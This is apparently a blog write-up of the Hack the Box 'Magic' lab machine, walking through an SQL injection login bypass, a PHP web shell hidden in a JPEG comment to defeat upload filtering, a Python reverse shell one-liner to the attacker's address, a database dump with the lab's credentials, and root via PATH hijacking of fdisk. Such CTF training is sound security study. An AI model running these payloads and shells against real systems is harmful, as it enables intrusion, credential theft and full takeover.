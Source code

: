 +++
author = "Nick"
categories = ["hack the box", "CTF", "medium", "Linux", "sqli", "SQL Injection", "gobuster", "image bypass", "exiftool", "reverse shell", "su", "sysinfo"]
date = 2020-08-22T15:00:00Z
description = ""
draft = false
thumbnail = "/images/2020/05/info-2.png"
slug = "hack-the-box-magic"
summary = "Today we are doing the Hack the Box machine Magic."
tags = ["hack the box", "CTF", "medium", "Linux", "sqli", "SQL Injection", "gobuster", "image bypass", "exiftool", "reverse shell", "su", "sysinfo"]
title = "Hack the Box - Magic"

+++


Welcome back! Today we are doing the Hack the Box machine Magic. Magic is listed as a Medium Linux machine. Let's jump in!

Like every box we do on this blog, we start with our `nmap` scan: `nmap -sC -sV -p- -oA allscan 10.10.10.185`

Here are our results:
```
Nmap scan report for 10.10.10.185
Host is up (0.044s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 85.14 seconds
```

We don't have much of a choice. It looks like we are going to head over to the web service being hosted to see how to get a foothold. Before we do, we'll start a `gobuster` scan to see what it might find.

Command:
`gobuster dir -u http://10.10.10.185 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php`

We know immediately from checking the source there is some driectory structures under images as well as a `login.php` page. Here are our `gobuster` results.

![](/images/2020/05/image-42.png)

Nothing really useful. So we'll take a peek at the login page. The first thing we try are some basic credentials like admin/admin, magic/magic ect, but none work. We have a few options, we can try to bruteforce our way in with `hydra` or `burpsuite` or we can see if the fields are vulnerable to `sql injections`. So we fire off `sqlmap` against the url. While that runs we test manually as well.

When we try to login as admin and a password of `'` it doesn't give us any error back as normal. So useing this we craft a standard SQL payload:

Payload
`'or''='`

This redirects us to the `upload.php` page.Turn outs that `sqlmap` also found the field injectable.

![](/images/2020/05/image-43.png)

![](/images/2020/05/magic_sql.gif)

Now that we are given an option to upload, we can try and upload something a bit more useful, like maybe a webshell of some type. When we try we are given an error about our file type.

![](/images/2020/05/image-44.png)

When we rename our shell to `shell.php.jpg`, we get another error.

![](/images/2020/05/image-45.png)

[This seems familiar](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf). It could be checking `mime` type here. There are a few ways to bypass this. This is a [nice quick reference page](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass). In this case we'll use the third method of using exiftool to add a comment. 

First we need a base image, I used the image of the minions on the index page from the box itself. Next we need to install `exiftool` since it's not installed by default.

Command:
`apt install exiftool -y`

Once installed we use the commands given before to create our code.

Command:
`exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' con.jpg`
`mv con.jpg con.php.jpg`

Now we upload the file.

![](/images/2020/05/magic_upload.gif)

Once the file is uploaded we navigate to `/images/uploads/` and see if `con.php.jpg` is there.

![](/images/2020/05/image-46.png)

It is indeed there. Now we can leverage the shell we imbeded into the image!

![](/images/2020/05/image-47.png)

This basic shell helps with enumeration but is lacking in functionality. I want to read that db.php5 file but in order to do so we'll need to repeat the process with a better shell, in this case we'll use [Winter Wolf's](https://github.com/WhiteWinterWolf/wwwolf-php-webshell#wwwolfs-php-web-shell) shell. After we repeat the process we are able to read the file and get a password!

![](/images/2020/05/image-48.png)

Unfortunately this password is not the same as the users `SSH` password. It is however an `SQL database` password. We'll need to create a reverse shell to dump this via `mysqldump`. I was able to get a shell [via python](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

Command:
`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.50",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

Once we issue the command via our shell, our listener starts up!

![](/images/2020/05/magic_reverseshell.gif)

We then [stabilize our shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) so we can dump the database. 

Command:
`mysqldump -u theseus -piamkingtheseus --all-databases > dumpme.sql`

As we parse through the dump, we see some more credentials:

![](/images/2020/05/image-49.png)

We are still unable to use that password for `SSH` due to how `SSH` has been configured. We can however try to `su` to another user and hope one of the two passwords work.

![](/images/2020/05/image-50.png)

We got in! We snag the user.txt flag. Now that we're inside the box, we can start enumerating interally. We'll copy of `linpeas` and take a look at there is on the system. As we sift through the information given, we see some interesting items. In particular our ability to use sysinfo:

![](/images/2020/05/image-51.png)

This looks like a pretty potent path to root, I'm just not sure how. Some googling around didn't really give me anything great. So I copy over `pspy32` and start monitoring processes. When I run `sysinfo` with `pspy` running I see the commands it's actually calling to the system. You could also see this if you `strings` the binary.

![](/images/2020/05/image-53.png)

Now that we know it's calling `fdisk` and in what order we'll create our own `fdisk` that has a reverse shell inside. So we create a new directory in `/tmp` called `tmp3`. Now inside this directory we create a file called `fdisk`. Now change the file permissions to `755`. Inside this file, we'll put the same `python` reverse shell we had from before just on a different port. You can either make the file on your local attackin machine or create it on the target machine. Here are the commands so far:

Commands:
`mkdir /tmp/tmp3`
`vi fdisk`
`chmod +x fdisk`

Now that we have those in place, we need to append a new location to our [PATH variables](https://linuxize.com/post/how-to-set-and-list-environment-variables-in-linux/). We know from before it is this:

![](/images/2020/05/image-54.png)

We also know that the PATH is parsed in order. So we want to add `/tmp/tmp3` to the front of that variables list, like this:

Command:
`export PATH=/tmp/tmp3:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
<l/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin`

This way, `sysinfo` will look in our `/tmp/tmp3` location for fdisk BEFORE all other locations.

Now we'll spin up our `netcat` listener on our chosen port.

With all the parts in place, we call `sysinfo`.

![](/images/2020/05/magic_root.gif)

There we have it, a root shell! We snag the root.txt flag. Box completed!

Think about sending me some respect over on HTB if you enjoyed the write-up! Here's my [profile](https://www.hackthebox.eu/home/users/profile/95635).



